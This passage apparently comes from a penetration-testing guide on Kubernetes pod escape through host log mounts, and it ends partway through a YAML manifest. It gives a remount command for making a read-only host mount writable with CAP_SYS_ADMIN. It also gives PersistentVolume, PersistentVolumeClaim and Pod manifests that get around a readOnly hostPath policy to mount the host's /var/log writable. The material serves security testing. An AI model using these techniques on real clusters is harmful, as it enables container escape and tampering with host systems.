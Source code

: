 **A laboratory and automated exploit can be found in** [**https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts**](https://blog.aquasec.com/kubernetes-security-pod-escape-log-mounts)

#### Bypassing readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

If you are lucky enough and the highly privileged capability capability `CAP_SYS_ADMIN` is available, you can just remount the folder as rw:

```bash
mount -o rw,remount /hostlogs/
```

#### Bypassing hostPath readOnly protection <a href="#bypassing-hostpath-readonly-protection" id="bypassing-hostpath-readonly-protection"></a>

As stated in [**this research**](https://jackleadford.github.io/containers/2020/03/06/pvpost.html) it’s possible to bypass the protection:

```yaml
allowedHostPaths:
    - pathPrefix: "/foo"
       readOnly: true
```

Which was meant to prevent escapes like the previous ones by, instead of using a a hostPath mount, use a PersistentVolume and a PersistentVolumeClaim to mount a hosts folder in the container with writable access:

```yaml
apiVersion: v1
kind: PersistentVolume
metadata:
  name: task-pv-volume-vol
  labels:
    type: local
spec:
  storageClassName: manual
  capacity:
    storage: 10Gi
  accessModes:
    - ReadWriteOnce
  hostPath:
    path: "/var/log"
---
apiVersion: v1
kind: PersistentVolumeClaim
metadata:
  name: task-pv-claim-vol
spec:
  storageClassName: manual
  accessModes:
    - ReadWriteOnce
  resources:
    requests:
      storage: 3Gi
---
apiVersion: v1
kind: Pod
metadata:
  name: task-pv-pod
spec:
  volumes:
    - name: task-pv-storage-vol
      persistentVolumeClaim:
```